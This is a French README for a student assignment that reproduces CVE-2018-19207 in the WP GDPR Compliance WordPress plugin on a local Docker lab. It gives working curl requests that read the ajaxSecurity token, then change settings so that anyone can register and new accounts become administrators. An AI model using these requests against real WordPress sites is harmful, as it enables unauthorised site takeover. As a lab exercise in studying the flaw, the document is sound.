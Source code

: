 # SDSI

Devoir 2 - Faille CVE-2018-19207

## Démarrer les containers

```
docker-compose up
```

## Configuration de wordpress

1. Se connecter au site via `http://localhost:8000/`

2. Créer le compte administrateur en suivant les instructions (N.B : Attention l'adresse mail n'a pas besoin d'être correcte mais son format doit l'être !)

3. Activer le plugin "WP GDPR Compliance" via `http://localhost:8000/wp-admin/plugins.php` puis "Activate"

## Exploitation de la faille

### 1. Se connecter sur le home du site

- Requête GET à `http://localhost:8000/` pour obtenir le token `ajaxSecurity` utilisé par le plugin (copier les quelques caractères composant le token)

```
curl -X GET http://localhost:8000/ | grep "ajaxSecurity"
```

### 2. Autoriser la création de nouveaux utilisateurs

Tentez de créer un nouveau compte à l'adresse `http://localhost:8000/wp-login.php?action=register`.

On peut voir le message d'erreur suivant "User registration is currently not allowed." Nous allons modifier les paramètres Wordpress afin d'autoriser la création de nouveaux comptes.

- Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
- Paramètres: `action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false", "option": "users_can_register", "value": "1"}`

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22users_can_register%22%2C%22value%22%3A%221%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

En accédant à nouveau à `http://localhost:8000/wp-login.php?action=register`, on peut désormais créer un nouveau compte sur le site.

### 3. Obtenir les droits administateur

On souhaite désormais que les nouveaux comptes créés aient les droits administrateur par défaut.

- Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
- Paramètres: `action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false","option": "default_role", "value": "administrator"}`

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22default_role%22%2C%22value%22%3A%22administrator%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

### 4. Obtenir un compte administrateur

Créez-vous un nouveau compte `http://localhost:8000/wp-login.php?action=register`. On vous demande ensuite de vérifier votre adresse mail. Ignorez cette demande (le site n'est pas configuré pour envoyer des mails) et Connectez vous via `http://localhost:8000/wp-login.php` avec le compte admin initial.

Dans l'onglet "Users", vous pourrez voir le nouveau compte que vous avez créé avec le rôle "Administrator". Vous pouvez aussi vérifier dans l'onglet "Settings" > "General" les paramètres "Membership" (la case "Anyone can register" devrait être cochée) et "New User Default Role" (à "Administrator").

## En cas de problème

Si vous n'arrivez pas à faire fonctionner le PoC, n'hésitez pas à créer un ticket sur notre dépôt : https://github.com/saoulij/SDSI/ !

